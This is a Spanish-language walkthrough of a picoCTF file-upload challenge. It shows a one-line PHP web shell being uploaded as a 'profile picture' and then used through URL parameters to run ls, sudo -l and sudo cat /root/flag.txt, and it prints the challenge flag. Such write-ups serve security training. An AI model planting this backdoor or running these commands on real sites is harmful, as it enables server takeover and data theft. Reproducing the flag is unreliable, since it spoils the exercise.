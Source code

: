 ### Descripción
A developer has added profile picture upload functionality to a website. However, the implementation is flawed, and it presents an opportunity for you. Your mission, should you choose to accept it, is to navigate to the provided web page and locate the file upload area. Your ultimate goal is to find the hidden flag located in the `/root` directory.

Additional details will be available after launching your challenge instance.
#### Una vez iniciada la instancia del desafío:
A developer has added profile picture upload functionality to a website. However, the implementation is flawed, and it presents an opportunity for you. Your mission, should you choose to accept it, is to navigate to the provided web page and locate the file upload area. Your ultimate goal is to find the hidden flag located in the `/root` directory.You can access the web application [here](http://standard-pizzas.picoctf.net:62019/)!
### Solución
Iniciamos dando clic en el enlace mostrado en la descripción del reto una vez iniciada la instancia del desafio:

![[Pasted image 20250412141654.png]]

Probamos subiendo una imagen para probar el funcionamiento de la carga de archivos, la cual resulta exitoso, como podemos ver en la siguiente imagen:

![[Pasted image 20250412141735.png]]

Ahora que subimos la imagen nos aparece el siguiente desplegado:

```
The file mario.png has been uploaded Path: uploads/mario.png
```

Por lo que procederemos a probar si se puede subir cualquier otro archivo, el cual nos permita acceder a los archivos contenidos en el sitio web, por lo que usaremos un backdoor simple de php con el siguiente código:

```php
<?php
if(isset($_GET['cmd'])){
    system($_GET['cmd']);
}
?>
```

El cual será guardado en un archivo de texto y se subirá a la página web, como se muestra a continuación:

![[Pasted image 20250415080111.png]]

Como podemos ver, se nos permite la carga del código php, con lo que solo nos resta subirlo, una vez realizado esto, procedemos a ejecutar comandos para conocer los archivos que contenga el sitio web:

http://standard-pizzas.picoctf.net:62019/uploads/backdoor.php?cmd=ls

Al ejecutar este comando solo nos aparecen la imagen que subimos y el código php que nos va a permitir manipular el sitio web.

http://standard-pizzas.picoctf.net:62019/uploads/backdoor.php?cmd=sudo%20-l

Después de intentar con el comando anterior nos aparece el siguiente desplegado:

```
Matching Defaults entries for www-data on challenge: env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin User www-data may run the following commands on challenge: (ALL) NOPASSWD: ALL
```

Por lo que se ingresa el comando `sudo cat /root/flag.txt` ya que con este tenemos privilegios de administrador, quedando en el siguiente link:

http://standard-pizzas.picoctf.net:62019/uploads/backdoor.php?cmd=sudo%20cat%20/root/flag.txt

Después de ejecutar el comando anterior, encontramos la bandera que da solución al reto:

```
picoCTF{wh47_c4n_u_d0_wPHP_712a9451}
```
### Notas Adicionales

### Referencias